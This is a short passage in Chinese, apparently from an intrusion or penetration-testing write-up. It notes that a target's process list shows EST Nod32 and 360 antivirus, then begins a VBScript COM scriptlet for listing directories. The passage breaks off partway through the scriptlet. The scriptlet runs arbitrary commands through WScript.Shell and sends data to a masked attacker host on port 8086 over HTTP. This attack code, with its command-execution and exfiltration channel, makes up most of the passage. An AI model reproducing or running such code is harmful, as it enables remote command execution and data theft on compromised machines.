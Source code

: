 ![](media/2019-07-19-14-48-39.png)

![](media/2019-07-19-14-49-25.png)

获得进程列表后，看到有`EST Nod32`、`360`等防护软件，看来需要做的工作有很多。

列目录：

```
<?XML version="1.0"?>
<scriptlet>
	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
		<script language="vbscript">
<![CDATA[
Sub getName(name)
  	Dim http
	Set http = CreateObject("Msxml2.ServerXMLHTTP")
	http.open "GET","http://xxx.xxx.xxx.xxx:8086/"+name, False
	http.send
End Sub

Sub Cmd(command)
Set oShell = CreateObject("WScript.Shell")
Set Re = oShell.Exec(command)

```